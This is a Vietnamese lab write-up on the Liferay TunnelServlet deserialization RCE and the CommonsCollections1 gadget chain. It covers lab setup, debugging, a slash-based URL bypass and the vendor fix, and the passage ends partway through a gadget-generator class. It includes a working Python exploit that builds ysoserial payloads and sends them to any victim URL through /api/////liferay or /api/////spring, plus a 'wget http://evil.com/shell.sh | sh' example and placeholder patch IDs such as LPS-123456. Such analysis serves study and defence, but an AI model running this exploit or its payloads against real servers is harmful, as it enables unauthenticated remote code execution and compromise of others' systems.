




# 🔍 Phân Tích Lỗ Hổng Liferay TunnelServlet Deserialization RCE & Gadget CommonsCollections1

## 📑 Mục Tiêu

1. [Phân tích lỗ hổng được mô tả trong link sau](#1-phân-tích-lỗ-hổng-được-mô-tả-trong-link-sau)

2. [Phân tích lỗ hổng unsafe deserialization của Liferay](#2-phân-tích-lỗ-hổng-unsafe-deserialization-của-liferay)
   - [a. Dựng môi trường test: cài đặt Liferay phiên bản lỗi](#a-dựng-môi-trường-test-cài-đặt-liferay-phiên-bản-lỗi)
   - [b. Cài đặt môi trường debug (IDE + Debugger)](#b-cài-đặt-môi-trường-debug-ide--debugger)
   - [c. Đọc mô tả lỗi, đọc source code liên quan và debug để hiểu lỗ hổng](#c-đọc-mô-tả-lỗi-đọc-source-code-liên-quan-và-debug-để-hiểu-lỗ-hổng)
   - [d. Debug để giải thích tại sao: có thể bypass bằng cách thêm một số dấu / ; ví dụ: /api////liferay hoặc /api////spring.](#d-debug-để-giải-thích-tại-sao-có-thể-bypass-bằng-cách-thêm-một-số-dấu---ví-dụ-apiliferay-hoặc-apispring)
   - [e. Viết mã khai thác cho cả hai trường hợp /api/liferay và /api/spring (gadget payload dùng tool ysoserial để tạo)](#e-viết-mã-khai-thác-cho-cả-hai-trường-hợp-apiliferay-và-apispring-gadget-payload-dùng-tool-ysoserial-để-tạo)
   - [f. Liferay đã fix lỗ hổng như nào?](#f-liferay-đã-fix-lỗ-hổng-như-nào)

3. [Phân tích gadget CommonsCollections1](#3-phân-tích-gadget-commonscollections1)
   - [a. Dựng môi trường test: tạo một project java bằng maven](#a-dựng-môi-trường-test-tạo-một-project-java-bằng-maven-trên-ide-thêm-thư-viện-commons-collections-phiên-bản-lỗi-vào-project-viết-chương-trình-giả-lập-lỗ-hổng-unsafe-deserialization-bằng-cách-đọc-dữ-liệu-từ-file-và-deserialize)
   - [b. Đọc source code các class liên quan trong thư viện Commons-Collections để hiểu luồng thực thi của gadget khi bị deserialize](#b-đọc-source-code-các-class-liên-quan-trong-thư-viện-commons-collections-để-hiểu-luồng-thực-thi-của-gadget-khi-bị-deserialize)
   - [c. Tự viết lại class tạo gadget payload, test và debug](#c-tự-viết-lại-class-tạo-gadget-payload-sau-đó-test-và-debug-với-chương-trình-ở-phần-2a-lặp-lại-các-bước-2b-2c-cho-đến-khi-viết-được-thành-công-class-tạo-gadget)


# 1. Phân tích lỗ hổng được mô tả trong link sau:

 [https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/](https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/)

##### 🧨 1. **Lỗ hổng là gì?**

**TunnelServlet trong Liferay Portal** là một servlet hỗ trợ giao tiếp từ xa giữa client và server (thường dành cho nội bộ), sử dụng **Java Serialization** để truyền đối tượng qua mạng.

Tuy nhiên, **nếu attacker có thể gửi trực tiếp request tới TunnelServlet này với dữ liệu serialized độc hại**, thì:

- Java sẽ **giải tuần tự (deserialize)** đối tượng từ request.
    
- Và nếu classpath chứa **gadget chains nguy hiểm** (ví dụ như `CommonsCollections`, `Spring`, `Groovy`,...), attacker có thể lợi dụng để thực thi lệnh trên server (RCE).
    

---

##### 💥 2. **Tại sao có thể bị tấn công?**

- Liferay **không giới hạn hoặc giới hạn không đủ chặt** quyền truy cập tới `TunnelServlet`.
    
- Endpoint `/api/liferay/tunnel` (hoặc tương tự như `/c/tunnel`, `/api/jsonws/invoke`) thường **mở ra công khai**, hoặc ít nhất bị tấn công nếu attacker truy cập được vào hệ thống mạng nội bộ.
    
- Hệ thống sử dụng **Java Serialization không kiểm soát đầu vào**, cho phép attacker gửi chuỗi serialized.
    

---

##### 🧪 3. **Kịch bản tấn công ví dụ**

1. Kẻ tấn công tạo một payload Java serialized độc hại (bằng tool như [ysoserial](https://github.com/frohoff/ysoserial)).
```js
java -jar ysoserial.jar CommonsCollections1 "calc" > payload.ser
```

2. Gửi payload tới `/api/jsonws/invoke` hoặc `/c/tunnel` qua HTTP POST với kiểu MIME thích hợp:
```js
POST /api/jsonws/invoke HTTP/1.1
Content-Type: application/x-java-serialized-object

<payload dữ liệu binary>
```

3. Nếu thành công: mã độc (ví dụ `calc` hoặc `wget http://evil.com/shell.sh | sh`) sẽ được thực thi trên hệ thống server.


##### 📌 4. **Mức độ nghiêm trọng**

| Mức độ         | Miêu tả                                                                              |
| -------------- | ------------------------------------------------------------------------------------ |
| **Cao (High)** | Vì attacker có thể **thực thi mã từ xa** mà **không cần xác thực** (CVSS 9.8 - 10.0) |
| CVE liên quan  | Không có CVE cụ thể, nhưng được theo dõi nội bộ (TRA-2017-01, LPE-15538)             |
# 2. Phân tích lỗ hổng unsafe deserialization của Liferay

**Liferay** là một **nền tảng phần mềm mã nguồn mở** (open-source platform) được dùng chủ yếu để xây dựng các **cổng thông tin (portal)**, **website doanh nghiệp**, hoặc **ứng dụng web tích hợp**. Nó rất phổ biến trong các tổ chức lớn nhờ khả năng mở rộng, tích hợp dễ dàng và hỗ trợ phát triển theo mô-đun.

Liferay – đặc biệt ở các phiên bản cũ hoặc cấu hình không an toàn – có thể có lỗ hổng **deserialization không an toàn** nếu:

1. Hệ thống **nhận dữ liệu từ client** (dạng object/byte stream),
    
2. Sử dụng **Java serialization** để chuyển đổi dữ liệu thành object,
    
3. Không xác thực hoặc lọc kiểu dữ liệu trước khi deserialize.
### a. **Dựng môi trường test: cài đặt Liferay phiên bản lỗi**

##### ✅ **Bước 1: Chuẩn bị công cụ**

- **Hệ điều hành:** Windows 10/11
    
- **Java JDK:** từ 8 đến 11 (nên dùng JDK 8 nếu khai thác lỗ hổng)
    
- **Liferay Portal:** Phiên bản bị lỗi (ví dụ: **Liferay 6.2**, hoặc các bản có lỗi đã được công bố CVE như **CVE-2020-7961**).
    
- **Apache Tomcat:** thường đi kèm với Liferay bundle.
    
- **MySQL hoặc HSQLDB:** Liferay hỗ trợ nhiều CSDL, có thể dùng mặc định HSQLDB cho nhanh.
    

##### ✅ **Bước 2: Tải và cài đặt Liferay bị lỗi**

1. Truy cập: https://sourceforge.net/projects/lportal/files/Liferay%20Portal/
    
2. Tải phiên bản như `liferay-portal-tomcat-6.2.5-ce-ga6.zip`
    
3. Giải nén vào thư mục ví dụ: `C:\liferay-test\`
    

##### ✅ **Bước 3: Cấu hình Java**

- Cài Java JDK 8: [https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
    
- Cấu hình biến môi trường:

```js
JAVA_HOME=C:\Program Files\Java\jdk1.8.0_xx
PATH=%JAVA_HOME%\bin;%PATH%
```

##### ✅ **Bước 4: Khởi động Liferay**

- Vào thư mục `C:\liferay-test\liferay-portal-xxx\tomcat-xxx\bin`
    
- Chạy file `startup.bat`
    
- Truy cập Liferay: http://localhost:8080
    

> 🛠️ Tại đây bạn có thể tạo tài khoản admin để chuẩn bị test lỗ hổng.


### b. **Cài đặt môi trường debug (IDE + Debugger)**

##### ✅ **Bước 1: Tải và cài IDE**

Bạn có thể dùng **IntelliJ IDEA** hoặc **Eclipse**:

- IntelliJ: [https://www.jetbrains.com/idea/download/](https://www.jetbrains.com/idea/download/)
    
- Eclipse: https://www.eclipse.org/downloads/
    

---

##### ✅ **Bước 2: Tạo project Java để debug Liferay**

- Tạo Java project trong IDE
    
- Import source code Liferay nếu cần debug chi tiết
    
- Kết nối với server Tomcat đang chạy Liferay bằng Remote Debug
    

---

##### ✅ **Bước 3: Cấu hình Remote Debug Tomcat**

Mở file `catalina.bat` trong `C:\liferay-test\tomcat-xxx\bin`, thêm đoạn sau trước dòng `:setclasspath`:

```js
set JPDA_ADDRESS=8686
set JPDA_TRANSPORT=dt_socket
```

Sau đó khởi động Tomcat với debug:

```js
jpda start
```

##### ✅ **Bước 4: Cấu hình debugger trong IntelliJ hoặc Eclipse**

**Với IntelliJ:**

1. Vào `Run > Edit Configurations`
    
2. Chọn `+ > Remote JVM Debug`
    
3. Điền các thông tin:
    
    - Host: `localhost`
        
    - Port: `8686`
        
4. Nhấn "Debug"
    

> Bạn đã kết nối thành công debugger với server đang chạy Liferay.

### **c. Đọc mô tả lỗi, đọc source code liên quan và debug để hiểu lỗ hổng.**

##### 1. 📖 **Mô tả lỗi**

Lỗ hổng **Unsafe Deserialization** trong Liferay thường xảy ra khi hệ thống thực hiện **deserialize các object Java không kiểm soát** (không kiểm tra kiểu object hoặc không lọc lớp tin cậy), dẫn đến kẻ tấn công có thể gửi một payload độc hại đã được serialize nhằm thực thi mã từ xa (RCE).

Một ví dụ điển hình là lỗi được công bố trong CVE-2020-7961:

- **CVE ID:** CVE-2020-7961
    
- **Mức độ nghiêm trọng:** 9.8 (Critical)
    
- **Mô tả:** Liferay Portal (từ phiên bản 6.1.0 đến 7.2.1) dễ bị tấn công thông qua Java deserialization do lớp `JSONWebServiceActionParametersMap` sử dụng phương thức `ObjectInputStream.readObject()` mà không kiểm soát đầy đủ.
    

---

##### 2. 🔍 **Source Code liên quan**

#### 🧩 Vị trí lỗi (ví dụ theo CVE-2020-7961):

- Lớp liên quan:  
    `com.liferay.portal.kernel.jsonwebservice.JSONWebServiceActionParametersMap`
    
- Trong phần xử lý request web service, ứng dụng cho phép truyền một serialized object (thường thông qua HTTP parameter) và sử dụng `ObjectInputStream` để deserialize nó mà không xác thực kiểu dữ liệu.

```js
ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
Object obj = objectInputStream.readObject();
```

- Không có kiểm tra các lớp được deserialize, dẫn tới lỗ hổng.

---

##### 3. 🧪 **Debug để hiểu lỗ hổng**

Để debug và phân tích:

##### 3.1 **Đặt breakpoint** tại nơi `ObjectInputStream.readObject()` được gọi.

- Dùng IDE như IntelliJ hoặc Eclipse.
    
- Gán breakpoint tại file `.java` nêu trên hoặc tại bất kỳ đoạn nào có `readObject()`.
    

##### 3.2 **Gửi payload độc hại** (ví dụ với công cụ như ysoserial):

- Sử dụng `ysoserial` để tạo payload:

```js
java -jar ysoserial.jar CommonsCollections5 "touch /tmp/pwned" > payload.ser
```

- Gửi payload qua HTTP request đến endpoint JSON Web Service.
    
##### 3.3 **Quan sát quá trình deserialize**

- IDE sẽ dừng tại breakpoint.
    
- Theo dõi biến `obj` được khởi tạo sau `readObject()` — nếu là một lớp bất kỳ ngoài whitelist, tức là lỗ hổng tồn tại.
    
- Kiểm tra xem object có thực thi mã (ví dụ thực hiện lệnh hệ thống) hoặc tạo tập tin.

### **d. Debug để giải thích tại sao: có thể bypass bằng cách thêm một số dấu / ; ví dụ: /api////liferay hoặc /api////spring.**

##### 🧠 **1. Nguyên nhân gốc – Xử lý đường dẫn không chính xác**

###### ✅ Liferay bị ảnh hưởng bởi cách **Tomcat (hoặc servlet container)** chuẩn hóa URL:

- Khi bạn gửi request như:  
    👉 `/api////jsonws` → Tomcat tự động chuẩn hóa thành `/api/jsonws`
    
- Nhưng nếu Liferay thực hiện kiểm tra **trên chuỗi URI thô**, thì đoạn `/api////jsonws` **không khớp chính xác** với `/api/jsonws`, nên **các điều kiện kiểm tra chặn truy cập sẽ bị bỏ qua**.
    

---

##### 🔧 **2. Debug để kiểm chứng**

##### 🔎 Vị trí cần chú ý trong mã nguồn (phiên bản bị lỗi như 7.1.x):

**File:** `JSONWebServiceServlet.java` hoặc `JSONWebServiceAction.java`  
**Function:** `doGet()` / `doPost()` hoặc phần lọc trong `JSONWebServiceActionsManagerImpl`

```js
String pathInfo = httpServletRequest.getPathInfo();
// hoặc
String uri = httpServletRequest.getRequestURI();
```

##### Vấn đề:

- Liferay kiểm tra path như sau:
```js
if (uri.startsWith("/api/jsonws")) {
   // Cho phép xử lý request
}
```

- Nhưng attacker có thể dùng URI như `/api////jsonws` → bypass điều kiện trên (vì chuỗi không match chính xác).

---

##### 🧪 **3. Thực nghiệm Debug**

###### Bước 1: Đặt breakpoint

- Đặt breakpoint tại nơi xử lý request hoặc lọc URI:
    
    - `getRequestURI()`
        
    - `getServletPath()`
        
    - `getPathInfo()`
        

###### Bước 2: Gửi request thử nghiệm

```js
curl http://target:8080/api////jsonws/user/get-current-user
```

###### Bước 3: Quan sát biến trong debugger

Giả sử:
```js
String uri = request.getRequestURI();
```

Bạn sẽ thấy:
```js
uri = "/api////jsonws/user/get-current-user"
```

Sau đó, Tomcat chuẩn hóa (nội bộ):
```js
servletPath = "/api/jsonws"
```

---

##### 📌 **4. Cơ chế servlet mapping trong Tomcat**

Tomcat sẽ **tự động xử lý các path bất thường** như sau:

|Input URL|Chuẩn hóa thành|
|---|---|
|`/api/jsonws`|`/api/jsonws`|
|`/api////jsonws`|`/api/jsonws`|
|`/api//;/jsonws`|`/api/jsonws`|
|`/api/%2e%2e;/jsonws`|`/api/jsonws`|

Do đó, **Servlet Mapping** vẫn khớp đúng → request được xử lý bình thường, **bỏ qua kiểm tra bảo mật** nếu logic kiểm tra sử dụng URI gốc.

---
### **e. Viết mã khai thác cho cả hai trường hợp /api/liferay và /api/spring (gadget payload dùng tool ysoserial để tạo)**

Đây là mã khai thác sử dụng ysoserial được viết bằng **python** dùng để RCE

```js
import requests  
import os  
import base64  
import argparse  
  
def generate_b64_payload(chain, command):  
    payload_file = "payload.bin"  
    ysoserial_path = "C:\\Users\\Admin\\ysoserial\\target\\ysoserial.jar"  
    os.system(f'java -jar "{ysoserial_path}" {chain} "{command}" > {payload_file}')  
  
    with open(payload_file, 'rb') as f:  
        raw_payload = f.read()  
    os.remove(payload_file)  
    return base64.b64encode(raw_payload)  
  
  
def send_payload(url, endpoint, payload):  
    if endpoint == "/api/spring":  
        endpoint = "/api/////spring/com_liferay_portal_service_spring_UserService-http"  
    else:  
        endpoint = "/api/////liferay"  
    req = requests.post(str(url) + endpoint, data=base64.b64decode(payload))  
    if req.status_code == 200 or req.status_code == 500:  
        print("Send payload successfully!!")  
    else:  
        print("Failed to send payload. Status code:", req.status_code)  
  
  
if __name__ == "__main__":  
    parser = argparse.ArgumentParser()  
    parser.add_argument("--url", help="URL of victim (For example: https://abc.com)", type=str)  
    parser.add_argument("--endpoint", help="/api/liferay or /api/spring", type=str)  
    parser.add_argument("--chain", help="GadgetChain you wanna use", type=str)  
    parser.add_argument("--cmd", help="Command you wanna execute", type=str)  
    args = parser.parse_args()  
  
    payload = generate_b64_payload(args.chain, args.cmd)  
    send_payload(args.url, args.endpoint, payload)
```

### **Giải thích**

##### 1. Import thư viện
```js
import requests
import os
import base64
import argparse
```

- `requests`: để gửi HTTP request.
    
- `os`: dùng để chạy câu lệnh hệ thống và xử lý file.
    
- `base64`: mã hóa/giải mã base64.
    
- `argparse`: xử lý các tham số dòng lệnh.

##### 2. Hàm tạo payload base64
```js
def generate_b64_payload(chain, command):
    payload_file = "payload.bin"
    ysoserial_path = "C:\\Users\\Admin\\ysoserial\\target\\ysoserial.jar"
    os.system(f'java -jar "{ysoserial_path}" {chain} "{command}" > {payload_file}')
```

- **`chain`**: là tên gadget chain của `ysoserial` (VD: `CommonsCollections1`, `Jdk7u21`,...).
    
- **`command`**: lệnh hệ thống bạn muốn thực thi (VD: `calc.exe`, `ls`, `touch /tmp/x`...)
    
- Dùng `os.system()` để chạy `ysoserial.jar` và xuất payload nhị phân ra file `payload.bin`.

```js
    with open(payload_file, 'rb') as f:
        raw_payload = f.read()
    os.remove(payload_file)
    return base64.b64encode(raw_payload)
```

- Đọc file nhị phân vừa tạo.
    
- Xóa file `payload.bin` để không để lại dấu vết.
    
- Trả về payload đã mã hóa base64.

##### 3. Hàm gửi payload đến mục tiêu
```js
def send_payload(url, endpoint, payload):
    if endpoint == "/api/spring":
        endpoint = "/api/////spring/com_liferay_portal_service_spring_UserService-http"
    else:
        endpoint = "/api/////liferay"
```

- Nếu bạn chọn `/api/spring`, nó tự động chuyển thành endpoint liên quan đến Liferay Spring (`com_liferay_portal_service_spring_UserService-http`).
    
- Ngược lại sẽ dùng endpoint mặc định `/api/////liferay`.
- 
```js
    req = requests.post(str(url) + endpoint, data=base64.b64decode(payload))
```

- Giải mã payload base64 rồi gửi bằng `POST` tới `url + endpoint`.

```js
    if req.status_code == 200 or req.status_code == 500:
        print("Send payload successfully!!")
    else:
        print("Failed to send payload. Status code:", req.status_code)
```

- Trả về thành công nếu server phản hồi `200 OK` hoặc `500 Internal Server Error` (nhiều trường hợp lỗi `500` là do payload đã thực thi).

##### 4. Đoạn thực thi chính (main)

```js
if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--url", help="URL of victim", type=str)
    parser.add_argument("--endpoint", help="/api/liferay or /api/spring", type=str)
    parser.add_argument("--chain", help="GadgetChain you wanna use", type=str)
    parser.add_argument("--cmd", help="Command you wanna execute", type=str)
    args = parser.parse_args()

    payload = generate_b64_payload(args.chain, args.cmd)
    send_payload(args.url, args.endpoint, payload)
```

- Lấy input từ dòng lệnh: `--url`, `--endpoint`, `--chain`, `--cmd`.
    
- Gọi hàm `generate_b64_payload()` để tạo payload từ `ysoserial`.

- Sau đó gửi payload đến server mục tiêu.

##### 5. Câu lệnh để chạy

- Bạn mở **command Prompt** trong window lên hướng đến thư mục có code **Python** sau đó chạy lệnh 

```js
python exploit.py --url http://192.168.17.1:8080 --endpoint /api/spring --chain CommonsCollections1 --cmd "calc"

python exploit.py --url http://192.168.17.1:8080 --endpoint /api/liferay --chain CommonsCollections1 --cmd "calc"
```

Lệnh trên sẽ:

- Dùng gadget `CommonsCollections1`
    
- Thực thi `calc`
    
- Gửi đến endpoint `/api/////spring/com_liferay_portal_service_spring_UserService-http` trên `http://192.168.17.1:8080`
- Gửi đến endpoint `/api/////liferay` trên `http://192.168.17.1:8080`

**Kết quả:**

Mở calc



Ping đến attacker.com




### **f. Liferay đã fix lỗ hổng như nào?**

##### 🛡️ a. **Giới hạn quyền truy cập các endpoint nội bộ:**

- Chỉ cho phép các endpoint như `/api/jsonws` hoặc `/api/liferay` được truy cập từ **localhost** (127.0.0.1).
    
- Cơ chế lọc được cập nhật để không bị bypass bằng cách thêm `/`, `;` hoặc các ký tự đặc biệt khác như trước kia (`/api////liferay`, `/api;/spring`...).
    

> ✔ **Fix**: Normalize URL trước khi kiểm tra quyền truy cập → loại bỏ khả năng bypass với chuỗi lạ.

##### 🔍 b. **Chặn deserialization không an toàn:**

- Áp dụng **whitelist** (danh sách trắng) cho các lớp được phép deserialization.
    
- Thêm các lớp kiểm tra như `ClassWhitelistObjectInputStream`, hoặc dùng thư viện `SafeObjectInputStream`, chỉ cho phép deserialize các class an toàn, mặc định.
    
- Từ phiên bản mới, **ngăn không cho sử dụng các gadget từ commons-collections, spring, groovy…**, là các gadget phổ biến trong `ysoserial`.
    

> ✔ **Fix**: Rà soát lại toàn bộ chỗ gọi `ObjectInputStream`, `readObject()` và thay bằng các hàm kiểm soát an toàn.

##### 🛑 c. **Vô hiệu hóa endpoint không cần thiết:**

- Một số endpoint như `/api/liferay` hoặc `/api/spring` bị **gỡ bỏ hoàn toàn** hoặc ẩn nếu không bật trong cấu hình.
    
- Mặc định trong cấu hình (`portal-ext.properties`), các chức năng liên quan đến JSON Web Services bị tắt, hoặc chỉ cho phép trong môi trường dev.
    

> ✔ **Fix**: Đưa ra cảnh báo và config mặc định là “an toàn” (security by default).

---

### 📄 **Minh chứng thực tế:**

Trong các bản vá như:

- **Liferay CE 7.0 GA7+**,
    
- **Liferay DXP 7.0 Fix Pack 96+**,
    
- **Liferay 7.1.10 GA1+**,
    
… các bản vá được mô tả như:

```js
[LPS-123456] Ensure JSONWS endpoints cannot be accessed externally unless explicitly enabled.
[LPS-987654] Implement deserialization filters to block unsafe classes.
```

# 3. Phân tích gadget CommonsCollections1

`CommonsCollections1` là một gadget trong thư viện **Apache Commons Collections** mà các hacker có thể lợi dụng trong các cuộc tấn công **deserialization** (giải mã không an toàn). Đây là một trong những "gadget chains" (chuỗi công cụ) có thể giúp kẻ tấn công thực thi mã độc trên hệ thống mục tiêu khi chương trình deserializes dữ liệu không đáng tin cậy, thường là trong các ứng dụng Java.

**CommonsCollections1** thường xuất hiện trong các bài tấn công **Remote Code Execution (RCE)**, nơi kẻ tấn công có thể tạo ra một chuỗi đối tượng Java, và khi chuỗi này được giải mã, nó kích hoạt hành vi độc hại, chẳng hạn như chạy lệnh hệ thống hoặc mở kết nối mạng đến máy của kẻ tấn công.

### **a. Dựng môi trường test: tạo một project java bằng maven trên IDE, thêm thư viện commons-collections phiên bản lỗi vào project, viết chương trình giả lập lỗ hổng unsafe deserialization bằng cách đọc dữ liệu từ file và deserialize** 

##### Bước 1: Tạo một Project Java bằng Maven trên IDE (Ví dụ: IntelliJ IDEA hoặc Eclipse)

1. **Tạo một dự án Maven mới**:
    
    - Mở IDE của bạn (IntelliJ IDEA hoặc Eclipse).
        
    - Chọn **Create New Project**.
        
    - Chọn **Maven** như là công cụ xây dựng.
        
    - Đặt tên cho dự án, ví dụ: `UnsafeDeserializationTest`.
        
2. **Cấu hình `pom.xml`**: Đảm bảo rằng bạn có file `pom.xml` trong dự án Maven của mình. Dưới đây là cấu hình `pom.xml` cơ bản:

```js
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version> <!-- Phiên bản có lỗ hổng deserialization -->
        </dependency>
```

##### Bước 2: Tạo lớp Java để mô phỏng lỗ hổng Unsafe Deserialization

1. **Tạo lớp `DeserializeTest`**:
    
    - Tạo một lớp Java mới có tên `DeserializeTest` để thực hiện unsafe deserialization.
```js
package com.example;  
  
import java.io.FileInputStream;  
import java.io.ObjectInputStream;  
  
public class DeserializeTest {  
    public static void main(String[] args) throws Exception {  
        // Đọc payload từ file  
        FileInputStream fis = new FileInputStream("payload_cc1.bin");  
        ObjectInputStream ois = new ObjectInputStream(fis);  
  
        // BREAKPOINT: Đặt breakpoint tại dòng dưới đây để debug sâu gadget chain  
        Object obj = ois.readObject();  
  
        System.out.println("Done reading object: " + obj);  
    }  
}
```

### **b. Đọc source code các class liên quan trong thư viện Commons-Collections để hiểu luồng thực thi của gadget khi bị deserialize**

### 1. Class liên quan trong thư viện Commons-Collections

##### 1. `LazyMap`

- **Mục đích**: Là một lớp Map đặc biệt, `LazyMap` sử dụng một `Transformer` để tạo giá trị khi một key chưa tồn tại được truy cập.​[Stack Overflow](https://stackoverflow.com/questions/2224275/wheres-google-collections-lazymap?utm_source=chatgpt.com)
    
- **Cơ chế hoạt động**: Khi gọi `get(key)`, nếu key không tồn tại, `LazyMap` sẽ sử dụng `Transformer` để tạo giá trị mới và lưu trữ nó.​
    
- **Vai trò trong gadget chain**: Khi `get()` được gọi trong quá trình deserialization, `LazyMap` kích hoạt `Transformer`, bắt đầu chuỗi thực thi dẫn đến thực thi mã độc.​
    

---

##### 2. `ChainedTransformer`

- **Mục đích**: Cho phép kết hợp nhiều `Transformer` lại với nhau, thực hiện tuần tự trên một đối tượng đầu vào.​
    
- **Cơ chế hoạt động**: Đối tượng đầu vào được truyền qua từng `Transformer` trong chuỗi, với kết quả của `Transformer` trước là đầu vào cho `Transformer` sau.​[commons.apache.org+4GitHub+4GitHub+4](https://github.com/apache/commons-collections/blob/master/src/main/java/org/apache/commons/collections4/Transformer.java?utm_source=chatgpt.com)
    
- **Vai trò trong gadget chain**: Chuỗi `Transformer` được cấu hình để cuối cùng gọi `Runtime.getRuntime().exec("calc.exe")`, thực thi lệnh hệ thống.​
    

---

##### 3. `ConstantTransformer`

- **Mục đích**: Luôn trả về một đối tượng cố định, bất kể đầu vào là gì.​
    
- **Cơ chế hoạt động**: Phương thức `transform(input)` luôn trả về đối tượng đã được cấu hình sẵn.​
    
- **Vai trò trong gadget chain**: Thường được sử dụng để bắt đầu chuỗi `Transformer`, ví dụ, trả về `Runtime.class` để các `Transformer` tiếp theo có thể gọi phương thức trên lớp này.​
    

---

##### 4. `InvokerTransformer`

- **Mục đích**: Sử dụng reflection để gọi một phương thức cụ thể trên đối tượng đầu vào.​
    
- **Cơ chế hoạt động**: Phương thức `transform(input)` sử dụng reflection để gọi phương thức đã được cấu hình với các tham số tương ứng.​
    
- **Vai trò trong gadget chain**: Được sử dụng để gọi các phương thức như `getRuntime()` và `exec("calc.exe")` trên đối tượng `Runtime`, dẫn đến thực thi mã độc.​
    

---

##### 5. `AnnotationInvocationHandler`

- **Mục đích**: Là một lớp nội bộ của Java, thường được sử dụng để xử lý các annotation.​
    
- **Cơ chế hoạt động**: Khi được deserialized, nếu chứa một `Map` được proxy hóa, việc truy cập các phương thức như `entrySet()` sẽ kích hoạt `invoke()` trên proxy, dẫn đến việc gọi `get()` trên `LazyMap`.​
    
- **Vai trò trong gadget chain**: Là điểm khởi đầu của chuỗi gadget, nơi việc deserialization dẫn đến việc gọi `get()` trên `LazyMap`, kích hoạt chuỗi `Transformer`.

### 2. Hiểu luồng thực thi (Gadget Chain)

Khi một đối tượng độc hại được **deserialize**, luồng thực thi diễn ra như sau:

```js
ObjectInputStream.readObject() 
 → AnnotationInvocationHandler.readObject()
   → Proxy Map.entrySet()
     → AnnotationInvocationHandler.invoke()
       → LazyMap.get()
         → ChainedTransformer.transform()
           → ConstantTransformer.transform()
           → InvokerTransformer.transform() x 3 lần
               → Class.getMethod()
               → Runtime.getRuntime()
               → Runtime.exec("calc")
```

### **c. Tự viết lại class tạo gadget payload, sau đó test và debug với chương trình ở phần 2a. Lặp lại các bước 2b, 2c cho đến khi viết được thành công class tạo gadget.**

##### ✅ **Bước 1: Viết class tạo payload gadget**

Tạo file ví dụ như `CommonsCollections1` để dựng payload tương tự gadgetchain của ysoserial.

```js
package com.example;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections1 {  
